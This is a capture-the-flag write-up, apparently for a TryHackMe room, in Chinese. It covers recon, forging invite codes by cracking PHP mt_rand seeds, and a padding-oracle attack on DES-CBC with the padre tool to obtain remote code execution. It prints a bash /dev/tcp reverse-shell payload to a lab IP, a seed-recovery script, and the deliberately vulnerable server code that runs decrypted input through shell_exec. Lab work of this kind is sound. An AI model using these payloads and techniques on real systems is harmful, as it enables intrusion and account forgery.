







# Recon
:::notes
Can you decrypt the secrets and get RCE on the system? 
:::

```sh
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fe:96:56:b5:d9:1b:ed:3e:40:9a:a0:a1:bb:94:8b:39 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDBUDCG+dn4vJLo2ppVhbnbbWkPfwNMNSsAk9DLI8wLWAoYrIs7m8AY7kH2j/7Mr082au1i5imda4qnNnX7oimvARha7Pc8xdt/Hd/9Jdp2xg1V86H8gt29Mm9MZDsprOeMhCHtxF0Y/erL7eLbVAz76V4CSo0Lk9Mmqi36G1mb6oT4zxmXm/JimHrblzHYyvsfqDNORh0xPhKfdlrJ2KvhN2MESqv2OzzO25QApvvXUfKUeT8DwEdpy/dRbveqAVmjvabsnxej14N5mRzYHaKMg/Z63zIt7ES4S1eL5ieWfBtDd8EsrwfSKa2/xDiqzvoD/Xopn+rOgrkFB9bGrd1VvNzV1N6PacZ0g76BOXBToH8AzbPVxFAzRHlAMmkZEbi2yOTb62ZMLkCKKD1JqS0nfzwA38a/PvvBEyb5m8kvw9/TNOp8ghcLdWbnKsjPmbglgBsIqK1Fgiu/Z+O8UylzKMOKprPoho8tQF4y+USesnLriVns/JGAYSB9sTFtNAE=
|   256 68:25:61:21:2a:35:fb:da:bb:66:48:1e:ee:4e:13:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFiUF3PfPxb0l8AhySTHaBnfWU3St2T5cm1Nrp0l0OVFTuB4Ug8J/vpuzhl4iGG2n+bH8v3ZRruXovHiayAqp5o=
|   256 ad:3b:a1:e7:de:69:99:d8:04:c0:55:dd:94:df:01:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE1IynjBZfhpzq60JlYjpxWeZwR2nnvSf1G/k+qEBnDn
1337/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login - Decryptify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

两个端口, TTL 均为 64, Linux 默认一跳
1. `22`: SSH
2. `1337`: Apache Web, cookie 没有设置 httponly

# Web
登陆页面, 有账户密码登陆以及邀请码登录的选项, 页面底部还有一个 API document.

常规登录需要用户名以及邀请码, 经过测试没有任何类似返回信息或延迟等可能的信息泄漏途径.


邀请码登录需要邮箱以及邀请码, 经过测试没有任何类似返回信息或延迟等可能的信息泄漏途径.


API 文档的访问只需要密码
## tech stack
```http
HTTP/1.1 200 OK
Date: Fri, 18 Sep 2026 14:16:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=5p3tme16f2cii6bf2p1737t9e8; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3220
Content-Type: text/html; charset=UTF-8
```

技术栈没有给出什么有趣的信息

## enum
```sh
  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 25 | Wordlist size: 43003

Output File: /root/wrk/reports/http_10.65.160.45_1337/_26-09-18_14-21-05.txt

Target: http://10.65.160.45:1337/

[14:21:05] Starting: 
[14:21:05] 403 -  279B  - /.html
[14:21:05] 403 -  279B  - /.php
[14:21:05] 301 -  317B  - /css  ->  http://10.65.160.45:1337/css/
Added to the queue: css/
[14:21:05] 403 -  279B  - /.htm
[14:21:06] 301 -  318B  - /logs  ->  http://10.65.160.45:1337/logs/
Added to the queue: logs/
[14:21:06] 301 -  316B  - /js  ->  http://10.65.160.45:1337/js/
Added to the queue: js/
[14:21:07] 301 -  324B  - /javascript  ->  http://10.65.160.45:1337/javascript/
Added to the queue: javascript/
[14:21:09] 301 -  324B  - /phpmyadmin  ->  http://10.65.160.45:1337/phpmyadmin/
Added to the queue: phpmyadmin/
```

有一个有趣的目录: `logs`

### logs

```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```
两个用户:
1. `alpha@fake.thm`, 邀请码: `MTM0ODMzNzEyMg==`
2. `hello@fake.thm`, 没有对应邀请码

邀请码是 base64 格式
```sh
echo 'MTM0ODMzNzEyMg=='|base64 -d
1348337122
```

尝试以 `alpha@fake.thm` 登录, 显示账户已经被 `deactivated`

## `/js/api.js` Analyse
在登录页的源代码中找到该文件, 打开后是经过混淆的JS代码
```js
function b(c,d){const e=a();return b=function(f,g){f=f-0x165;let h=e[f];return h;},b(c,d);}const j=b;function a(){const k=['16OTYqOr','861cPVRNJ','474AnPRwy','H7gY2tJ9wQzD4rS1','5228dijopu','29131EDUYqd','8756315tjjUKB','1232020YOKSiQ','7042671GTNtXE','1593688UqvBWv','90209ggCpyY'];a=function(){return k;};return a();}(function(d,e){const i=b,f=d();while(!![]){try{const g=parseInt(i(0x16b))/0x1+-parseInt(i(0x16f))/0x2+parseInt(i(0x167))/0x3*(parseInt(i(0x16a))/0x4)+parseInt(i(0x16c))/0x5+parseInt(i(0x168))/0x6*(parseInt(i(0x165))/0x7)+-parseInt(i(0x166))/0x8*(parseInt(i(0x16e))/0x9)+parseInt(i(0x16d))/0xa;if(g===e)break;else f['push'](f['shift']());}catch(h){f['push'](f['shift']());}}}(a,0xe43f0));const c=j(0x169);
```

在在线网站反混淆后得到
```js
function b(c, d) {
  const e = a();
  return b = function (f, g) {
    f = f - 357;
    let h = e[f];
    return h;
  }, b(c, d);
}
const j = b;
function a() {
  const k = ["16OTYqOr", "861cPVRNJ", "474AnPRwy", "H7gY2tJ9wQzD4rS1", "5228dijopu", "29131EDUYqd", "8756315tjjUKB", "1232020YOKSiQ", "7042671GTNtXE", "1593688UqvBWv", "90209ggCpyY"];
  a = function () {
    return k;
  };
  return a();
}
(function (d, e) {
  const i = b, f = d();
  while (true) {
    try {
      const g = parseInt(i(363)) / 1 + -parseInt(i(367)) / 2 + parseInt(i(359)) / 3 * (parseInt(i(362)) / 4) + parseInt(i(364)) / 5 + parseInt(i(360)) / 6 * (parseInt(i(357)) / 7) + -parseInt(i(358)) / 8 * (parseInt(i(366)) / 9) + parseInt(i(365)) / 10;
      if (g === e) break; else f.push(f.shift());
    } catch (h) {
      f.push(f.shift());
    }
  }
}(a, 934896));
const c = j(361);
```

投喂 AI 后其指出该代码最终会将 `c` 赋值为 `H7gY2tJ9wQzD4rS1`

## Access to API document
目前我们只有一串神奇小代码, 没有用户名或邮箱, 考虑只需要密码的 API 文档:


得到用于生成邀请码的 PHP 代码:
```php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);
```

其使用 `mt_rand()` 以 `$seed_value` 为种子生成随机数, 将随机数 base64 编码作为邀请码, 对于 `mt_rand()`, 其是一个伪随机数生成器, 但可以被破解, 需要一个已知的邀请码.

其中种子的生成依据三个两个变量: `email` 以及 `constant`, 其中我们已经拥有 email.

回顾上文, 我们恰好拥有一个邀请码: `MTM0ODMzNzEyMg==`, 对应 `mt_rand()` 结果 `1348337122`

### crack seed and reverse constant

::github{repo="openwall/php_mt_seed"}

```sh
./php_mt_seed 1348337122
Pattern: EXACT
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 270.7 Mseeds/s
Version: 5.2.1+
Found 0, trying 0x00000000 - 0x01ffffff, speed 0.0 Mseeds/s
seed = 0x00143783 = 1324931 (PHP 7.1.0+)
Found 1, trying 0x0e000000 - 0x0fffffff, speed 3.1 Mseeds/s
```
得到 `$seed_value`: `1324931`
```php
<?php

declare(strict_types=1);

/**
 * Recover the numeric constant from the seed formula:
 *
 *   $seed = hexdec(
 *       strlen($email) +
 *       $constant_value +
 *       hexdec(substr($email, 0, 8))
 *   );
 *
 * Usage:
 *   php recover-constant.php <email> <seed>
 */

function calculate_seed_value(string $email, int $constantValue): int|float
{
    $emailLength = strlen($email);
    $emailHex = @hexdec(substr($email, 0, 8));
    $combined = $emailLength + $constantValue + $emailHex;

    return hexdec((string) $combined);
}

function recover_constant_value(string $email, int $seed): int
{
    if ($seed < 0) {
        throw new InvalidArgumentException('The seed must be a non-negative integer.');
    }

    /*
     * The original code converts the decimal sum to a string and interprets
     * that string as hexadecimal. Therefore dechex($seed) must reproduce the
     * original decimal digit string.
     */
    $combinedString = dechex($seed);

    if (!preg_match('/^[0-9]+$/', $combinedString)) {
        throw new RuntimeException(
            "No exact decimal value can produce seed {$seed}: " .
            "its hexadecimal form contains non-decimal digits ({$combinedString})."
        );
    }

    $combinedValue = (int) $combinedString;
    $emailLength = strlen($email);
    $emailHex = @hexdec(substr($email, 0, 8));

    return $combinedValue - $emailLength - $emailHex;
}

if ($argc !== 3) {
    fwrite(STDERR, "Usage: php recover-constant.php <email> <seed>\n");
    exit(1);
}

[$script, $email, $seedInput] = $argv;

if (!preg_match('/^\d+$/', $seedInput)) {
    fwrite(STDERR, "Error: seed must be a non-negative integer.\n");
    exit(1);
}

try {
    $seed = (int) $seedInput;
    $constant = recover_constant_value($email, $seed);
    $verifiedSeed = calculate_seed_value($email, $constant);

    echo "email:          {$email}\n";
    echo "email length:   " . strlen($email) . "\n";
    echo "email hex:      " . @hexdec(substr($email, 0, 8)) . "\n";
    echo "seed:           {$seed}\n";
    echo "constant value: {$constant}\n";
    echo "verified seed:  {$verifiedSeed}\n";

    if ((int) $verifiedSeed !== $seed) {
        fwrite(STDERR, "Warning: recovered value did not reproduce the seed exactly.\n");
        exit(2);
    }
} catch (Throwable $error) {
    fwrite(STDERR, "Error: {$error->getMessage()}\n");
    exit(1);
}
```
让 AI 搓了一个小脚本, 得到常量:
```sh
php recover-constant.php alpha@fake.thm 1324931
email:          alpha@fake.thm
email length:   14
email hex:      43770
seed:           1324931
constant value: 99999
verified seed:  1324931
```

## login as hello@fake.thm
那么生成 `hello@fake.thm` 就很方便了:
```php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
$seed_value = calculate_seed_value("hello@fake.thm", 99999);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);
echo $invite_code
```
得到邀请码: `NDYxNTg5ODkx`



看上去没什么新功能, 但给出了一个新邮箱: `admin@fake.thm`, 且指出当前用户角色为 user, `admin@fake.thm` 角色为 `admin`.
生成 admin 的邀请码: `MTc0OTQ0NzAzNw==`

### login as admin@fake.thm?
看着很棒, 对把. 但是, 不行.


## padding oracle and RCE
查看页面源代码:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dashboard</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
    <header class="bg-primary text-white text-center py-3">
        <h1>Dashboard</h1>
    </header>
    <main class="container my-5">
        <h2>Welcome, hello@fake.thm! - Flag: THM{CryptographyPwn007}</h2>
        <a href="?action=logout" class="btn btn-danger">Logout</a>
        <table class="table mt-4">
            <thead>
                <tr>
                    <th>Username</th>
                    <th>Role</th>
                </tr>
            </thead>
            <tbody>
                <tr>
                    <td>hello@fake.thm</td>
                    <td>user</td>
                </tr>
                <tr>
                    <td>admin@fake.thm</td>
                    <td>admin</td>
                </tr>
            </tbody>
        </table>
    </main>
    <footer class="bg-light text-center py-3">
        <p>&copy;  <strong>2026
</strong> Decryptify</p>
        <form method="get">
            <input type="hidden" name="date" value="ID4Q/0Q2drIZLi8kL9HnzuPA2600r1+s6fuRkuD8U7M=">
        </form>
    </footer>
</body>
</html>
```

有一个隐藏的参数 `date`, 默认值看上去像 base64, 但这次无法解出明文:
```sh
echo 'ID4Q/0Q2drIZLi8kL9HnzuPA2600r1+s6fuRkuD8U7M='|base64 -d|xxd
00000000: 203e 10ff 4436 76b2 192e 2f24 2fd1 e7ce   >..D6v.../$/...
00000010: e3c0 dbad 34af 5fac e9fb 9192 e0fc 53b3  ....4._.......S.
```

按照值输入参数后页面上出现了一条错误信息:
```
© Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length
```

这意味着我们正在攻击一个 ==Padding Oracle=={.tip}, 填充预言机, [这篇文章](https://tlseminar.github.io/padding-oracle/)介绍了攻击原理. 为了节省一些寿命, 这里选择自动化工具.

::github{repo="glebarez/padre"}

```sh
padre  -u 'http://10.65.160.45:1337/dashboard.php?date=$' -cookie "PHPSESSID=vpa4jp62n7re0852fssvdafl4l; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d" "ID4Q/0Q2drIZLi8kL9HnzuPA2600r1+s6fuRkuD8U7M="
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\... [24/24] | reqs: 3298 (0/sec)
```

其解密后的数据为 `date +%Y`, 后面为 `padding`, 尝试获取 shell
:::caution
该工具给出的 base64 编码后的结果可能包含一些 url 敏感字符
:::

```sh
padre  -u 'http://10.65.160.45:1337/dashboard.php?date=$' -cookie "PHPSESSID=vpa4jp62n7re0852fssvdafl4l; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d"  -enc "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.65.95.88/4444 0>&1'"
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] 9hw66HuQxtJsQldH2s5sGg3BwkS2TLLBtamEHJJQMQjtZlnwC/QatXxFUjbVO+uZs9hEkMc3YY7JM8gF/6QLnWVuZWVlYm5l                                                                                         [72/72] | reqs: 9813 (3271/sec)
root@ip-10-65-95-88:~/wrk# nc -lvvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.65.160.45 34988
bash: cannot set terminal process group (668): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-65-160-45:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-65-160-45:/var/www/html$ cat /home/ubuntu/flag.txt
cat /home/ubuntu/flag.txt
THM{GOT_COMMAND_EXECUTION001}
```

# beyond the flag
```php
?php
session_start();
error_reporting(E_ALL);
ini_set('display_errors', 1);
$key = "1234567890abcdef"; // Same 16-byte key
$pass = 'tryhack1';
$str = "";

// Functions for encryption and decryption
function encryptString($unencryptedText, $passphrase) {
    $iv = random_bytes(openssl_cipher_iv_length('DES-CBC')); // DES block size is 8 bytes
    $text = pad($unencryptedText, 8); // Keep PKCS5 padding
    $enc = openssl_encrypt($text, 'DES-CBC', $passphrase, OPENSSL_RAW_DATA, $iv); 

    if ($enc === false) {
        die("Encryption failed: " . openssl_error_string());
    }

    return base64_encode($iv . $enc);
}

function decryptString($encryptedText, $passphrase) {
    $encrypted = base64_decode($encryptedText); 
    $iv_size = openssl_cipher_iv_length('DES-CBC'); // Get IV size for DES-CBC
    $iv = substr($encrypted, 0, $iv_size); // Extract the IV
    $ciphertext = substr($encrypted, $iv_size); // Extract the actual ciphertext

    $dec = openssl_decrypt($ciphertext, 'DES-CBC', $passphrase, OPENSSL_RAW_DATA, $iv); // Decrypt the ciphertext
	
    if ($dec === false) {
		http_response_code(400);
        return "Padding error: " . openssl_error_string();
    }

    $str = unpad($dec); // Remove padding
    if ($str === false) {
		http_response_code(400);
        echo "Invalid padding" . $str;
        die();
    } else {
        return $str;
    }
}

function pad($text, $blocksize) {
    $pad = $blocksize - (strlen($text) % $blocksize);
    return $text . str_repeat(chr($pad), $pad);
}

function unpad($text) {
    if (empty($text)) {
        return false; // Invalid input
    }

    $pad = ord($text[strlen($text) - 1]); // Get the value of the last byte

    // If the padding byte value is out of range, treat as unpadded output
    if ($pad < 1 || $pad > strlen($text)) {
        return $text; // No padding detected, return original text
    }

    // Check if the last $pad bytes are all equal to $pad
    if (substr($text, -$pad) !== str_repeat(chr($pad), $pad)) {
        return $text; // Assume it's unpadded if padding is invalid
    }

    // Valid padding, remove it
    return substr($text, 0, -1 * $pad);
}

if (!isset($_SESSION['username']) ) {
    // If no session exists, redirect to login
	 header("Location: logout.php");
}

// Logout logic
if (isset($_GET['action']) && $_GET['action'] === 'logout') {
    session_destroy();
    setcookie("secure", "", time() - 3600, "/"); // Expire the secure cookie
    setcookie("role", "", time() - 3600, "/"); // Expire the role cookie
    header("Location: index.php");
    exit;
}

$comm ="";
$output = "";
if (isset($_GET['date'])) {
	$comm = $_GET['date'];
	$resp = decryptString($_GET['date'], $pass);
	//echo $resp;
	if (strpos($resp, 'Padding error:')!== false)
	{
		$output = $resp;
	}
	else{
		 $command = $_GET['date'];
      $output = shell_exec($resp);
	}

	//echo "command: ". $resp;
	//echo "command is". $resp;
	//if(isValidCommand($resp)){
	 
	//}
	//else{
	//$output = "invalid command";
	//}

}
else{
	$command = "date +%Y";
	//$command = "cat /home/ubuntu/flag.txt";
	$comm = encryptString($command, $pass);

	 $output = shell_exec($command);

}


function isValidCommand($command) {
    $output = shell_exec("command -v " . escapeshellarg($command) . " 2>/dev/null");
    return !empty($output);
}

if (isset($_SESSION['username']) ) {
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dashboard</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
    <header class="bg-primary text-white text-center py-3">
        <h1>Dashboard</h1>
    </header>
    <main class="container my-5">
        <h2>Welcome, <?php echo htmlspecialchars($_SESSION['username']); ?>! - Flag: THM{CryptographyPwn007}</h2>
        <a href="?action=logout" class="btn btn-danger">Logout</a>
        <table class="table mt-4">
            <thead>
                <tr>
                    <th>Username</th>
                    <th>Role</th>
                </tr>
            </thead>
            <tbody>
                <tr>
                    <td>hello@fake.thm</td>
                    <td>user</td>
                </tr>
                <tr>
                    <td>admin@fake.thm</td>
                    <td>admin</td>
                </tr>
            </tbody>
        </table>
    </main>
    <footer class="bg-light text-center py-3">
        <p>&copy;  <strong><?php echo htmlspecialchars($output); ?></strong> Decryptify</p>
        <form method="get">
            <input type="hidden" name="date" value="<?php echo $comm; ?>">
        </form>
    </footer>
</body>
</html>
<?php
}
else{
	 header("Location: logout.php");

}
```

其使用 DES-CBC 方式进行加密, 其是一种分组密码, 每个块在加密前都会与前一个块的密文进行异或. 类似于选择明文攻击, 如果可以在加密前进行填充(输入):
```php
function pad($text, $blocksize) {
    $pad = $blocksize - (strlen($text) % $blocksize);
    return $text . str_repeat(chr($pad), $pad);
}
$text = pad($unencryptedText, 8);
```

我们确实可以控制加密前的数据.